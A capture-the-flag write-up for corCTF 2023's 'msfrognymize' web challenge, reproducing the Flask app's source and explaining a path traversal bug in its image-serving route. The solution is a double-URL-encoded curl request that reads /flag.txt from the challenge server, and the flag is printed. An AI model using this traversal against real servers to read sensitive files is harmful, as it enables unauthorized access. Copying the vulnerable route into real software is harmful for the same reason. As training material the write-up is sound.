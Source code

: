 ```yaml
---
title: 2023 corCTF - msfrognymize
author: Gr33nM0nk3y
date: 2023-07-31 00:00:00 +0700
categories: [Write-ups, 2023_corCTF]
tags: [Web Exploitation, write-ups]
---
```


* 64 solves / 147 points
* author: jazzpizazz

## Description

> At CoR we care greatly about privacy (especially FizzBuzz). For this reason we anonymize any selfies before sharing them on Discord. We even encrypt the metadata using a special key!

### Attached

[msfrognymize.tar.gz](https://static.cor.team/uploads/edd98f8d859b22e2924932ef6936368031f76825e6534413ca95f2c34ef0cac4/msfrognymize.tar.gz)

```python
import os
import piexif
import tempfile
import uuid

from PIL import Image, ExifTags
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes, hmac
from flask import Flask, request, send_file, render_template
from urllib.parse import unquote
from werkzeug.utils import secure_filename

from celery_config import celery_app
from tasks import process_image

app = Flask(__name__)

celery_app.conf.update(app.config)

UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()


def hmac_sha256(data):
    h = hmac.HMAC(ENCRYPTION_KEY, hashes.SHA256(), backend=default_backend())
    h.update(data)
    return h.finalize().hex()


def encrypt_exif_data(exif_data):
    new_exif_data = {}
    for tag, value in exif_data.items():
        if tag in ExifTags.TAGS:
            tag_name = ExifTags.TAGS[tag]
            if tag_name == "Orientation":
                new_exif_data[tag] = 1
            else:
                new_exif_data[tag] = value
        else:
            new_exif_data[tag] = hmac_sha256(value)
    return new_exif_data


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files['file']
        if file:
            try:
                img = Image.open(file)
                if img.format != "JPEG":
                    return "Please upload a valid JPEG image.", 400

                exif_data = img._getexif()
                encrypted_exif = None
                if exif_data:
                    encrypted_exif = piexif.dump(encrypt_exif_data(exif_data))
                filename = secure_filename(file.filename)
                temp_path = os.path.join(tempfile.gettempdir(), filename)
                img.save(temp_path)

                unique_id = str(uuid.uuid4())
                new_file_path = os.path.join(UPLOAD_FOLDER, f"{unique_id}.png")
                process_image.apply_async(args=[temp_path, new_file_path, encrypted_exif])

                return render_template("processing.html", image_url=f"/anonymized/{unique_id}.png")

            except Exception as e:
                return f"Error: {e}", 400

    return render_template("index.html")


@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')


if __name__ == '__main__':
    app.run()

```

## Analyzation

These are important lines

```python
UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()

@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```

All the images are stored in ```uploads/``` directory.

When a ```GET``` request is sent to ```/anonymized/<image_file>```, it will:
- URL decode the image filename ```<image_file>```, and join the path ```UPLOAD_FOLDER``` by ```os.path.join()``` function.
- Check if ```..``` and the filepath ```uploads/<image_file>``` exists in the ```file_path``` or not.
- Send the image to the client.

[Path traversal](https://owasp.org/www-community/attacks/Path_Traversal) is the answser for this problem. But how??

- Firstly, we need to bypass the ```..``` filter. The ```unquote()``` decode only ONE TIME (!) So double encoding will work.
- Secondly, the ```os.path.join()``` function itself vulnerable. Because [python.org document](https://docs.python.org/3/library/os.path.html#os.path.join) says
```
If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.
```

So just give them absolute path of flag, ```/flag.txt```.

## Solution

```sh
curl https://msfrognymize.be.ax/anonymized/%252Fflag.txt
```

The flag is
```
corctf{Fr0m_Priv4cy_t0_LFI}
```